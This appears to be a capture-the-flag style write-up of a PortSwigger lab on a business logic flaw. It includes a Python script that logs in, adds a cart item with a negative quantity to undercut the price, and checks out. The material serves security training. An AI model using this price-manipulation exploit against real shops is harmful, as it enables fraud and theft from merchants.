 ```yaml
--- 
title: "High Level Logic Vulnerability"
author: ""
date: 2024-06-01T17:55:47+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0ae4008f04bfe75680e04e27000900d8.web-security-academy.net

#### Enumeration
Access the lab, add the domain to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page, then request all embedded links via Burp proxy using the script below.

```python
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Specify Variables
base_url = "https://0ae4008f04bfe75680e04e27000900d8.web-security-academy.net"
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Parse Base URL
content = BeautifulSoup(requests.get(base_url).text, 'html.parser')

# Find and Request all href resource
for link in content.find_all('a', href=True):
  full_url = urljoin(base_url,link['href'])
  response = requests.get(full_url, proxies=proxies, verify=False)
  print(f"{response.status_code} {response.url}")

# Find and Request all src resource
for img in content.find_all('img', src=True):
  full_url = urljoin(base_url,img['src'])
  response = requests.get(full_url, proxies=proxies, verify=False)
  print(f"{response.status_code} {response.url}")
```

![Enumeration](/images/bizlogic2/01-enumerate-high-level-logic-vulnerability.png "Enumeration")  

#### Exploration
Stacking BurpSuite and the Browser with FoxyProxy extension for Burp turned on, perform a user flow for purchasing an item after logging in with the provided user credential  `wiener:peter`.  The `/login` when requested with valid credentials makes a POST request with `csrf`, `username` and `password` parameters.    

![Exploration](/images/bizlogic2/02-explore-high-level-logic-vulnerability.png "Exploration") 

#### Exploitation
Observe a POST request  to `/cart`  with `productId`,`redir`, and `quantity` parameters. When the cart is viewed a GET request is made to `/cart` which returns an ensuing page with a coupon feature that has a `csrf` input tag and a form tag that makes a POST request to `/cart/checkout` to place an order for the item. The subtlety here is that the price is hard-coded and can't be changed but the item quantity can. Typically the total price of item is calculated by multiplying the price and quantity, hence we exploit the quantity parameter with a negative value. Add two items to cart and view the cart, then send these requests to Burp Repeater and manipulate the quantity of the second item to gravely reduce the price of the first item and then purchase the desired item. This exploit can be automated with the script below
```python
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Define Variables
base_url = 'https://0ae4008f04bfe75680e04e27000900d8.web-security-academy.net/'
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Get CSRF Token
def get_csrf_token(session, url):
  response = session.get(url, proxies=proxies, verify=False)
  csrf_token = BeautifulSoup(response.text, 'html.parser').find('input', {'name': 'csrf'}).get('value')
  return csrf_token

# Purchase Item
def purchase_item(session, url):
  # Login
  login_url = urljoin(base_url, 'login')
  login_csrf_token = get_csrf_token(session, login_url)
  login_payload = {'username': 'wiener', 'password': 'peter', 'csrf': login_csrf_token}
  login_response = session.post(login_url, data=login_payload, proxies=proxies, verify=False)
  if login_response.status_code == 200:
    # Add first item
    cart_url = urljoin(base_url, 'cart')
    cart_payload1 = {'productId': '1', 'redir': 'PRODUCT', 'quantity': '1'}
    session.post(cart_url, data=cart_payload1, proxies=proxies, verify=False)

    # Add second item
    cart_payload2 = {'productId': '2', 'redir': 'PRODUCT', 'quantity': '-16'}
    session.post(cart_url, data=cart_payload2, proxies=proxies, verify=False)

    # Checkout
    checkout_url = urljoin(base_url, 'cart/checkout')
    checkout_csrf_token = get_csrf_token(session, cart_url)
    checkout_payload = {'csrf': checkout_csrf_token}
    checkout_response = session.post(checkout_url, data=checkout_payload, proxies=proxies, verify=False)
    if checkout_response.status_code == 200:
      print("Purchase successful!")
    else:
      print("Failed to checkout.")
  else:
    print("Failed to log in.")

def main():
  session = requests.Session()
  purchase_item(session, base_url)

if __name__ == "__main__":
  main()
```
![Exploitation](/images/bizlogic2/03-exploit-high-level-logic-vulnerability.png "Exploitation") 

![Solution](/images/bizlogic2/04-lab-solution.png "Solution")   

#### Resources
- https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-high-level
- https://github.com/knoxknot/portswigger/tree/main/business-logic/02-high-level-logic-vulnerability